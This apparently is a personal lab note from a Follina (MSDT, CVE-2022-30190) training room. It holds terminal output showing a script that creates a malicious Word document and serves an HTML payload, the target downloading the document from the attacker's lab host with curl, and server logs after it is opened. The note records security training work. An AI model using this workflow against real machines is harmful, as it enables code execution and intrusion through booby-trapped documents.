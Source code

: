 ```
using attackbox later on my machine

root@ip-10-10-1-188:~/Rooms/Follina-MSDT# python3.9 follina.py 
[+] copied staging doc /tmp/lex0kznd
[+] created maldoc ./follina.doc
[+] serving html payload on :8000

root@ip-10-10-1-188:~/Rooms/Follina-MSDT# python -m http.server 3456
Serving HTTP on 0.0.0.0 port 3456 (http://0.0.0.0:3456/) ...
10.10.198.117 - - [29/Oct/2022 00:27:16] "GET /follina.doc HTTP/1.1" 200 -

Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>curl http://10.10.1.188:3456/follina.doc -o follina.docx
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10694  100 10694    0     0  10694      0  0:00:01 --:--:--  0:00:01  652k


after clicking follina word

root@ip-10-10-1-188:~/Rooms/Follina-MSDT# python3.9 follina.py 
[+] copied staging doc /tmp/lex0kznd
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
10.10.198.117 - - [29/Oct/2022 00:31:03] code 501, message Unsupported method ('OPTIONS')
10.10.198.117 - - [29/Oct/2022 00:31:03] "OPTIONS / HTTP/1.1" 501 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] code 501, message Unsupported method ('OPTIONS')
10.10.198.117 - - [29/Oct/2022 00:31:04] "OPTIONS / HTTP/1.1" 501 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "GET /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] code 501, message Unsupported method ('OPTIONS')
10.10.198.117 - - [29/Oct/2022 00:31:04] "OPTIONS / HTTP/1.1" 501 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] code 501, message Unsupported method ('OPTIONS')
10.10.198.117 - - [29/Oct/2022 00:31:04] "OPTIONS / HTTP/1.1" 501 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "GET /index.html HTTP/1.1" 304 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:31:04] "HEAD /index.html HTTP/1.1" 200 -
10.10.198.117 - - [29/Oct/2022 00:32:32] "HEAD /index.html HTTP/1.1" 200 -


```

![[Pasted image 20221028183144.png]]
